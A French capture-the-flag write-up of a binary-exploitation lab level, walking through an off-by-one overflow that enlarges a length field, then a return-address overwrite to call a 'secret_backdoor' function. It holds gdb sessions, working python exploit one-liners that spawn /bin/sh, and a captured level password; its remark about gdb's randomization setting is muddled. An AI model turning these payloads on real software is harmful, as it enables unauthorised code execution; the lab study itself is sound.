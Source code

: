 En observant le code, on se rend compte qu'il existe une fonction "secret_backdoor" qu'on aimerait utiliser pour pouvoir lire le fichier .pass.
On se rend compte en lisant le code qu'une copie de 41 caractères est effectué sur l'entrée username qui contient pourtant 40 caractères.

On va donc pouvoir réécrire la taille de len dans la structure, ce qui va nous permettre potentiellement d'appeler la fonction secret_backdoor.

Pour commencer, on va chercher l'adresse de secret backdoor.

gdb level09
info func
> 0x000000000000088c  secret_backdoor

Cette adresse est un peu étrange, mais on va la tester.

Il faut auparavant connaître l'offset.

Pour se faire, on va lancer le programme depuis gdb et le faire crasher, puis regarder $rsp, le registre qui gère la pile.

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¦>: Msg @Unix-Dude
>>: a123456789b123456789c123456789d123456789e123456789f123456789g123456789h123456789i123456789j123456789k123456789l123456789m123456789n123456789o123456789p123456789q123456789r123456789s123456789t123456789u123456789v123456789w123456789x123456789y123456789z123456789
>: Msg sent!
(gdb) info functions secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000000000000088c  secret_backdoor


On a donc notre offset au caractère 200 pour le mot de passe et l'adresse de notre fonction secret-backdoor qu'on va pouvoir reecrire sur l'eip.
Ceci dit, notre overflow ne sera pas possible a cause de la verification due a la variable len de la structure s_msg.

La variable etant stockee dans une structure a la suite de notre username, il est possible de remplacer sa valeur par un byte qu'on injecterait apres le caractere 40 (taille de notre username), par exemple \xff\xff pour pouvoir ecrire jusque 65536 caracteres.

(python -c 'print "A"*40+"\xff"+"\n"+"A"*200+"\x8c\x08\x00\x00\x00\x00\x00"+"\n"+"/bin/sh\n"'; cat) | ./level09

Ça ne fonctionne pas...

Après un certain temps de recherche, on découvre que l'"Address space layout randomization" est quelque chose qui existe.
En gros, on a l'adresse de notre fonction backdoor qui sera placée à un endroit différent dans la mémoire à chaque utilisation.

Nous devons donc le désactiver.

(gdb) set disable-randomization off
(gdb) r
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: test
>: Welcome, test
>: Msg @Unix-Dude
>>: test
>: Msg sent!
[Inferior 1 (process 1722) exited normally]
(gdb) info functions secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor

En lançant le programme plusieurs fois de cette manière, on se rend compte que la même adresse est utilisée à chaque fois pour le secret backdoor, ce qui rend possible le fait de l'appeller par la méthode précédente.
Ainsi:

(python -c 'print "A"*40+"\xff"+"\n" +"A"*200+"\x8c\x48\x55\x55\x55\x55\x00"+"\n"+"/bin/sh"'; cat) | ./level09

whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
